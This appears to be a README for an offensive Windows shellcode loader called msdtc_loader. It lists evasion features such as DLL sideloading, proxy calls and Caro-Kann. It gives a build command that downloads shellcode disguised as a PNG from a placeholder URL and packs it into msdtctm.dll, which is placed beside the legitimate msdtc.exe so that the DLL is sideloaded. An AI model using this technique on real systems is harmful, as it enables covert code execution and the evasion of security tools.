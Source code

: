 # msdtc_loader

1. dll sideload
2. no crt
3. proxy load dll
4. proxy call
5. Caro-Kann

## usage

```
cd ./msdtc_loader

python3 ./minish4loaderdll.py  -u http://$shellcode_download_url/icon.png -f ~/$shellcode.x64.bin -o $(pwd)/$encrypt_shellcode_output.png -pf $(pwd)/msdtctm.dll
```
Put msdtc.exe (from System32 folder) and msdtctm.dll together


This may be migrated to the sh4loader project in the future

## credits

https://vulnlab.com/

https://maldevacademy.com/

https://github.com/S3cur3Th1sSh1t/Caro-Kann

https://github.com/paranoidninja/Proxy-Function-Calls-For-ETwTI
